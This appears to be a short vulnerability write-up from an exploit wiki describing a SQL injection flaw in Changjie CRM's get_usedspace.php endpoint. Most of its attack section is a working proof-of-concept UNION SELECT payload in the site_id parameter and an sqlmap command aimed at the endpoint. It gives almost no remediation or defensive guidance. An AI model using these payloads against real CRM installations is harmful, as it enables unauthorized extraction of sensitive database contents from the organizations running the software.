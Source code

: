 # Changjie CRM get_usedspace.php SQL injection vulnerability

## Vulnerability Description

Changjie CRM get_usedspace.php has SQL vulnerability, and database sensitive information can be obtained through the vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Changjie CRM</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633506073821-57c99e5c-e655-49d0-a6de-845e13e971f8.png)

Verify POC

```php
/webservice/get_usedspace.php?site_id=-1159 UNION ALL SELECT CONCAT(0x76756c6e,0x76756c6e,0x76756c6e)--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633511742259-b57303f1-0530-477e-a86f-8a403927fe15.png)

Verification vulnerability using Sqlmap

```php
sqlmap -u "https://xxx.xxx.xxx.xxx:8000/webservice/get_usedspace.php?site_id=1" -p site_id
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633511844026-09d2cb14-ca2e-4c20-be83-f634144393e2.png)